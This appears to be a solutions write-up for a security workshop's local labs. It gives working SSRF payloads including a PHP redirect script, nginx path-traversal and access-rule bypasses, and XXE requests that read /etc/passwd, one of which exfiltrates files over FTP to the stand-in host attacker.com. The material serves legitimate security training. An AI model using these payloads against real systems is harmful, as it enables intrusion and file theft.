

### SSRF Labs

#### Lab1 

Fetches images and returns base64 but there are no restriction on image type or any SSRF check so simply pass localhost url.
  - Accessing localhost http://localhost:8000/ssrflab1/fetch_image.php?url=http://127.0.0.1/
  - Base64 decode

#### Lab2 

Fetches images and returns base64 but there are restrictions in place by sending a HEAD request first and match for `content-type: image/*` in response headers.
(https://github.com/rootxharsh/workshoplabs/blob/85ceee1755cb554e3dfe1393281870a3b43b7df3/ssrf/ssrflab2/fetch_image.php#L8) 

This could be bypassed by serving a page with `content-type: image/*` for HEAD request however for GET we'll reply back with a Location header which will be followed.

  - Create a php file and call it smuggle.php
```php
<?php
if ($_SERVER['REQUEST_METHOD'] == "HEAD") {
        header("Content-type: image/jpeg");
} elseif ($_SERVER['REQUEST_METHOD'] == "GET") {
        header("Content-type: image/jpeg");
        header("Location: ".$_GET['r']."");
}
?>
```

- Serve this on your server (with php configured)
- Payload http://localhost:8000/ssrflab2/fetch_image.php?url=http://your-server/smuggle.php?r=http://127.0.0.1

#### Lab3

We have an endpoint http://localhost:8000/ssrflab3/api.php?p=/api/v1/users which seems to be making a server side request to http://localhost:8000/ssrflab3/api/v1/users 
Also we have an open redirect at Twitter link http://localhost:8000/ssrflab3/external_redirect.php?url=https://twitter.com/rootxharsh we can use this redirect to make server side request to our controlled host by chaining it with above earlier found endpoint.

- Chained Payload http://localhost:8000/ssrflab3/api.php?p=/external_redirect.php%3furl%3dhttp://127.0.0.1/

### Reverse proxy lab 1

#### Vulnerable nginx config

  ```
location /static {
    alias /var/www/app_name/public/;
  }
```

As this will match /static../ , it can be used to do a path traversal in web root of the Rails app.

http://localhost:8010/static../Gemfile

### Reverse proxy lab 2

As Nginx (Rev proxy) + Apache (Backend Server) working in conjuction it causes an inconsistency (`//` & `/`) that will allow us to bypass bellow rule.

```
location /app/admin {
        return 403;
    }
```

Payload : `http://localhost:8020/app/admin//../`

More reference: 



### XXE Labs

#### Lab1

```http
POST /xxelab1/login HTTP/1.1
Host: localhost:8030
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 154

<?xml version='1.0'?>
<!DOCTYPE a [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
<username>&xxe;</username>
<password>x</password>
</root>
```

#### Lab2 

**Note: This OOB XXE will only work in older versions of JAVA (before 1.8) where you can have \r \n characters in FTP requests. In these labs we are using latest version so you can only exfilterate files that don't have characters like \r \n**

http://attacker.com/xxe.dtd

```
<!ENTITY % data SYSTEM "file:///etc/hostname">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'ftp://attacker.com:21/%data;'>">
```

```http
POST /xxelab2/login2 HTTP/1.1
Host: localhost:8030
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 154

<?xml version='1.0'?>
<!DOCTYPE a [
<!ENTITY xxe SYSTEM "http://attacker.com/xxe.dtd">
]>
<root>
<username>&xxe;</username>
<password>x</password>
</root>
```

#### Lab3
```http
POST /xxelab3/login3  HTTP/1.1
Host: localhost:8030
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 426

<?xml version='1.0'?>
<!DOCTYPE a [
<!ENTITY % xxe SYSTEM "jar:file:///usr/local/tomcat/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd">
<!ENTITY % Body '(test)>
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY error SYSTEM &#x27;file:///test/&#x25;file;&#x27;>">
<!ENTITY x "Test"
'>
%xxe;
%eval;
]>
<root>
<username>&error;</username>
<password>x</password>
</root>
```
